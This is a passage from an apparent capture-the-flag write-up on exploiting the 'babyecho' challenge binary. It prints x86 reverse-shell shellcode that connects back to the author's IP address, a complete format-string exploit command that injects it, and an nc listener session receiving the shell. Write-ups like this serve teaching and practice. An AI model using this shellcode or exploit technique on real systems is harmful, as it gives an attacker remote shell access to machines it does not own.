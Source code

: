 I like using those two against the real server to see if things are working. The real server will disconnect you immediately for "\xcd\x03", and the server will time out with "\xeb\xfe".

<h2>Shellcode</h2>

For the final step (to exploiting it locally), let's grab some shellcode from the Internet.

This is some shellcode I've used in the past - it's x86, and it connects back to my ip address on port 0x4444 (17476). I've put some additional quotes around the ip address and the port number so they're easy to find:

<pre>
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\x31\xdb\xb3\x02\x68""\xce\xdc\xc4\x3b""\x66\x68""\x44\x44""\x66\x53\xfe\xc3\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80"
</pre>

We replace the "\xcc" or "\xeb\xfe" with all that muck, and give it a run:

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n''\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\x31\xdb\xb3\x02\x68""\xce\xdc\xc4\x3b""\x66\x68""\x44\x44""\x66\x53\xfe\xc3\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80" | ./babyecho > /dev/null</span>
</pre>

Meanwhile, on my server, I'm listening for connections, and sure enough, a connection comes:

<pre>
$ <span class='in'>nc -vv -l -p 17476</span>
listening on [any] 17476 ...
connect to [206.220.196.59] from 71-35-121-132.tukw.qwest.net [71.35.121.123] 56307
  <span class='in'>pwd</span>
/home/ron/defcon-quals/babyecho
<span class='in'>ls /</span>
applications-merged
bin
boot
dev
etc
home
lib
lib32
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
stage3-amd64-20130124.tar.bz2
sys
tmp
torrents
usr
var
vmware
</pre>
